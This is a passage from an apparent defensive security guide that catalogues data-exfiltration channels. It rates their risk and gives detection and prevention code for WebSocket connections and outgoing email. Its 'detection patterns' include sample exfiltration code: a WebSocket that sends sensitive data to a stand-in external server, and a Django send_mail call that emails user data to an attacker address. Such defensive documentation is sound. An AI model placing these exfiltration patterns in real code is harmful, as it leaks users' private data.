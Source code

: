 
### 2. WebSocket Connections

#### **Method Description**
Real-time bidirectional communication channels that can transmit data continuously.

#### **Detection Patterns**
```javascript
// WebSocket exfiltration
const ws = new WebSocket('wss://external-server.com/socket');
ws.onopen = () => {
  ws.send(JSON.stringify(sensitiveData));
};
```

#### **Risk Assessment**
- **Likelihood**: MEDIUM (Used in real-time applications)
- **Impact**: CRITICAL (Continuous data transmission)
- **Detection Difficulty**: LOW (Connection is visible)
- **Stealth Level**: MEDIUM (Can appear as legitimate real-time features)

#### **Prevention Implementation**
```typescript
// WebSocket patching
const OriginalWebSocket = window.WebSocket;
window.WebSocket = class extends OriginalWebSocket {
  constructor(url: string | URL, protocols?: string | string[]) {
    if (isExternalDomain(url.toString())) {
      logExfiltrationAttempt('WEBSOCKET', url.toString(), { protocols });
      throw new Error(`External WebSocket blocked: ${url}`);
    }
    super(url, protocols);
  }
};
```

#### **Local Alternatives**
- **Real-time Updates**: Local event system with WebRTC for peer-to-peer
- **Live Data**: Server-sent events to internal endpoints

---

### 3. Email Transmission

#### **Method Description**
Sending sensitive data through email services, often automated.

#### **Detection Patterns**
```python
# Django email backend interception
import smtplib
from django.core.mail import send_mail

# Intercepted email sending
send_mail(
    'Data Export',
    f'User data: {sensitive_data}',
    'from@company.com',
    ['external@attacker.com']
)
```
